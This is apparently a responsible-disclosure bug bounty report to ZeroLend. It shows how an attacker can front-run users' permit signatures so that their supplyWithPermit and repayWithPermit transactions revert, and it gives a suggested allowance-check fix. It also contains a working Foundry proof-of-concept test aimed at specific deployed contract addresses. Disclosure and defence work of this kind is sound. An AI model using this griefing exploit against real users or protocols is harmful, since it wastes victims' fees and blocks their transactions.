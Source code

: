 
# Attacker can invalidate users `supplyWithPermit()` and `repayWithPermit()` transactions

Submitted on Mar 2nd 2024 at 12:59:17 UTC by @Norah for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #28938

Report type: Smart Contract

Report severity: Medium

Target: https://pacific-explorer.manta.network/address/0x8676e39B5D2f0d6E0d78a4208a0cCBc50504972e

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro
- Where:
    -  [supplyWithPermit()]
    -  [repayWithPermit()]
    - (https://pacific-explorer.manta.network/address/0x8676e39B5D2f0d6E0d78a4208a0cCBc50504972e?tab=contract)
- Expected behavior:
    - The `supplyWithPermit()`  and `repayWithPermit()` functions utilises the permit function so that approve and pull operations can happen in a single transaction instead of two consecutive transactions.

## Vulnerability Details
- Attack:
    - `ERC20Permit` uses the nonces mapping for replay protection. Once a signature is verified and approved, the nonce increases, invalidating the same signature being replayed.
    - `supplyWithPermit()` expects the holder to sign their tokens and provide the signature in function parameter.
    - When a `supplyWithPermit()` transaction is in the mempool, an attacker can take this signature, call the `permit` function on the token themselves.
    - Since this is a valid signature, the token accepts it and increases the nonce.
    - As a result victim transaction will revert, whenever it gets mined becuase the nonce has been already use.
    - Check POC for more detail.

## Impact Details
 - Attacker can invalidate users `supplyWithPermit()` and `repayWithPermit()` transactions.
- While Attacker does not profit from this, it harms users (gas fee and opportunity cost) and protocols reputation.

## Recommendation
- In `repayWithPermit`  and `supplyWithPermit` function, check if it has the approval it needs. If not, then only submit the permit signature.

```
if (IERC20(address(asset)).allowance(msg.sender,address(this)) < amount) {
           IERC20WithPermit(asset).permit(msg.sender, address(this), amount, deadline, permitV, permitR, permitS);
        }
```
- Given the fix is simple, I would suggest to implement it as there is also possibility that sophisticated attacker might uses this to delay users `repay()` transaction and gain advantage.

## References
Add any relevant links to documentation or code
 


## Proof of Concept

- Following is POCs demonstrating the attack vector on Manta-Pacific fork in foundry..
 - To recreate please enter your RPC, and then run "forge test"

```

// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test,console2} from "forge-std/Test.sol";
interface IERC20 {
    function balanceOf(address account) external view returns (uint256);
    function transfer(address recipient, uint256 amount) external returns (bool);
    function approve(address spender, uint256 amount) external returns (bool);

    function permit(
    address owner,
    address spender,
    uint256 value,
    uint256 deadline,
    uint8 v,
    bytes32 r,
    bytes32 s) external;

    function DOMAIN_SEPARATOR() external view returns(bytes32);
    function nonces(address) external view returns(uint256);
}

interface IPool {

  function supplyWithPermit(
    address asset,
    uint256 amount,
    address onBehalfOf,
    uint16 referralCode,
    uint256 deadline,
    uint8 permitV,
    bytes32 permitR,
    bytes32 permitS
  ) external;

}

contract GreifingAttack is Test {

    //RPC URL
    string RPC_URL = ""; //Enter your RPC here

    IPool Pool = IPool(0x2f9bB73a8e98793e26Cb2F6C4ad037BDf1C6B269);
    IERC20 Asset  = IERC20(0x95CeF13441Be50d20cA4558CC0a27B601aC544E5);

    uint256 constant VICTIM_PRIVATE_KEY = 0xCCCC;
    address victim = vm.addr(VICTIM_PRIVATE_KEY);

    bytes32 private constant PERMIT_TYPEHASH = keccak256("Permit(address owner,address spender,uint256 value,uint256 nonce,uint256 deadline)");

    function setUp() public {

        uint256 ForkId = vm.createFork(RPC_URL);
        vm.selectFork(ForkId);

        deal(address(Asset), victim, 1000 ether);
    }

    function testPermitExploit() public {

         vm.startPrank(victim);

        //the happy path
        //victim adds liquidity with their sign using permit functionality

        uint amount = 1000 ether;
        bytes32 domainSeparator = Asset.DOMAIN_SEPARATOR();

        (uint8 v, bytes32 r, bytes32 s) = vm.sign(
            VICTIM_PRIVATE_KEY,
            keccak256(
                abi.encodePacked(
                    "\x19\x01",
                    domainSeparator,
                    keccak256(
                        abi.encode(
                            PERMIT_TYPEHASH,
                            victim,
                            address(Pool),
                            amount,
                            Asset.nonces(victim),
                            block.timestamp
                        )
                    )
                )
            )
        );

        uint256 snapshot = vm.snapshot();

        // the victim calls the supplywithPermit function
        // with the signed permit and it succeeds as expected
        Pool.supplyWithPermit(address(Asset),amount,victim,0,block.timestamp,v,r,s);

        vm.revertTo(snapshot);

        //The griefing attack

        //Now, Before the victim's transaction gets accepted
        //the attacker takes the signature and submits it themselves
        uint256 nonceBefore = Asset.nonces(victim);
        Asset.permit(victim, address(Pool), amount, block.timestamp, v, r, s);

        //this ends up increasing the victim nonce
        assertEq(Asset.nonces(victim), nonceBefore + 1);

        //now when victim's transaction will be reverted,
        //because the nonce is already used
        vm.startPrank(victim);
        vm.expectRevert("ERC20Permit: invalid signature");
        Pool.supplyWithPermit(address(Asset),amount,victim,0,block.timestamp,v,r,s);
        vm.stopPrank();
    }

}
        

```